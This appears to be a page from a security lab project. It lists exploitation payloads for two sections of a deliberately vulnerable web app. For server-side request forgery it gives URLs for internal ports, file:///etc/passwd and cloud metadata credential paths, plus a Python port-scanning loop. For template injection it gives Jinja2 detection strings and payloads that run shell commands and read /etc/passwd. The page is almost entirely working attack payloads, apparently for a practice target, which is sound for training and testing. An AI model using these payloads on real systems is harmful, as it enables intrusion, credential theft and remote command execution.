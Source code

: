 ## 🔓 6. Server-Side Request Forgery (SSRF)

**Endpoint**: `/check_url`  
**Parameter**: `url`

### Test Payloads
```
http://127.0.0.1:5000
http://localhost:22
http://localhost:3306
http://169.254.169.254/latest/meta-data/
file:///etc/passwd
ftp://internal-server/
gopher://127.0.0.1:6379/
```

### Port Scanning via SSRF
```python
import requests

for port in range(1, 1000):
    url = f"http://127.0.0.1:{port}"
    response = requests.post('http://localhost:5000/check_url', data={'url': url})
    # Analyze response for open ports
```

### Cloud Metadata Access
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://metadata.google.internal/computeMetadata/v1/
```

---

## 🔓 7. Server-Side Template Injection (SSTI)

**Endpoint**: `/render_template`  
**Parameters**: `template`, `name`

### Detection Payloads
```
{{ 7*7 }}
${7*7}
<%= 7*7 %>
#{7*7}
```

### Exploitation Payloads (Jinja2)
```python
# Basic command execution
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('whoami').read() }}

# Alternative payloads
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()") }}

{{ lipsum.__globals__.os.popen('ls -la').read() }}

# File reading
{{ self.__init__.__globals__.__builtins__.__import__('builtins').open('/etc/passwd').read() }}
```
